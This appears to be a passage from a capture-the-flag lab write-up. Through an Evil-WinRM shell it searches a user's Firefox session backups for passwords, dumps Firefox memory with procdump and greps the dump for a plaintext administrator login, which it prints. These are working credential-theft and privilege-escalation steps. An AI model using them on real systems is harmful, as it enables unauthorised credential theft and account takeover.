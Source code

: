 after looking around there wasn't much except from the todo.txt file

The only thing of relevance was reference to checking the issue list. Since there was no list on the server, which chase could access, this must be donw by a browser.

After using `Get-Process` command to find out what browser he usually uses, i found firefox was running.
```
*Evil-WinRM* PS C:\> get-process firefox
Handles  NPM(K)    PM(K)      WS(K)     CPU(s)     Id  SI ProcessName
-------  ------    -----      -----     ------     --  -- -----------
    358      26    16332     279920       0.73   6252   1 firefox
   1138      71   141448     476008      42.98   6440   1 firefox
    341      19    10176     264104       0.80   6564   1 firefox
    407      31    17392     293212       3.86   6796   1 firefox
    390      36    78456     341504      67.70   7104   1 firefox  
```

Navigating to his profile page shows a cached profile. using the sessionstore-backups directory it is possible to retreive credentials.

``*Evil-WinRM* PS C:\Users\Chase\AppData\roaming\Mozilla\Firefox\Profiles\77nc64t5.default\sessionstore-backups> Get-ChildItem -path . -recurse -file | select-string password``

However since the machine was reset there was no data in here. The next method is to use procdump from sysinternals.
```
*Evil-WinRM* PS C:\Users\Chase\AppData\roaming\Mozilla\Firefox\Profiles\77nc64t5.default\sessionstore-backups> upload procdump64.exe
Info: Uploading procdump64.exe to C:\Users\Chase\AppData\roaming\Mozilla\Firefox\Profiles\77nc64t5.default\sessionstore-backups\procdump64.exe

                                                             
Data: 535060 bytes of 535060 bytes copied

Info: Upload successful!
```
```
*Evil-WinRM* PS C:\Users\Chase\Documents> .\procdump64 -ma 6076 -accepteula

ProcDump v10.11 - Sysinternals process dump utility
Copyright (C) 2009-2021 Mark Russinovich and Andrew Richards
Sysinternals - www.sysinternals.com

[16:39:09] Dump 1 initiated: C:\Users\Chase\Documents\firefox.exe_220601_163909.dmp
[16:39:09] Dump 1 writing: Estimated dump file size is 307 MB.
[16:39:11] Dump 1 complete: 307 MB written in 1.1 seconds
[16:39:11] Dump count reached.
```
after downloading the dump I can use a grep commmand to find the login information.
```
$ grep -aoE 'login_username=.{1,20}@.{1,20}&login_password=.{1,50}&login=' firefox.exe_220601_164733.dmp 
login_username=admin@support.htb&login_password=4dD!5}x/re8]FBuZ&login=
```
Now I can use Evil-winrm to login as administrator

